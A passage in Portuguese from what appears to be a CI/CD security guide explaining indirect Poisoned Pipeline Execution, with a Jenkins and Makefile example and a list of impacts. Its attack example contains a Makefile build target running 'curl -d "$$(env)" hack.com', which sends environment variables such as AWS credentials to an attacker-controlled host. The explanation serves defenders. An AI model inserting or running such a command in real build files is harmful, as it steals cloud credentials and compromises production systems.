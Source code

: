 
O Makefile:


```MAKEFILE
build:
   echo "building…"

clean:
   echo "cleaning…"
```

![alt_text](assets/images/ippe.jpg)

Nesse cenário, o ataque de I-PPE seria executado da seguinte forma:



1. O atacante cria pull requests no repositório, anexando comandos maliciosos ao arquivo _Makefile_ .


```MAKEFILE
build:
   curl -d "$$(env)" hack.com

clean:
   echo "cleaning…"

```



2. Como o pipeline está configurado para ser acionado em qualquer PR no repositório, o pipeline Jenkins é acionado, buscando o código do repositório, incluindo o _Makefile_ malicioso.
3. O pipeline é executado com base no arquivo de configuração armazenado na branch principal. Ele chega ao estágio _build_ e carrega as credenciais da AWS nas variáveis de ambiente - conforme definido no Jenkinsfile original. Em seguida, ele executa o comando _make build_, que executa o comando malicioso que foi adicionado ao _Makefile_.
4. A função maliciosa _build_ definida no Makefile é executada, enviando as credenciais da AWS para um servidor controlado pelo invasor.
5. O invasor pode usar as credenciais roubadas para acessar o ambiente de produção da AWS.


## Impacto

Em um ataque de PPE bem-sucedido, os invasores executam código malicioso não revisado no CI. Isso fornece ao invasor as mesmas habilidades e nível de acesso do processo de Build, incluindo:



* Acesso a qualquer segredo disponível para o job do CI, como segredos injetados como variáveis de ambiente ou segredos adicionais armazenados no CI. Sendo responsáveis por criar código e implantar artefatos, os sistemas CI/CD geralmente contêm dezenas de credenciais e tokens de alto valor - como para um provedor de nuvem, para registros de artefatos e para o próprio SCM.
* Acesso a ativos externos para os quais o nó de trabalho tem permissões, como arquivos armazenados no sistema de arquivos do nó ou credenciais para um ambiente de nuvem acessível por meio do host subjacente.
* Capacidade de enviar código e artefatos mais adiante no pipeline, disfarçado de código legítimo criado pelo processo de build.
* Capacidade de acessar hosts e ativos adicionais na rede/ambiente do nó de trabalho.

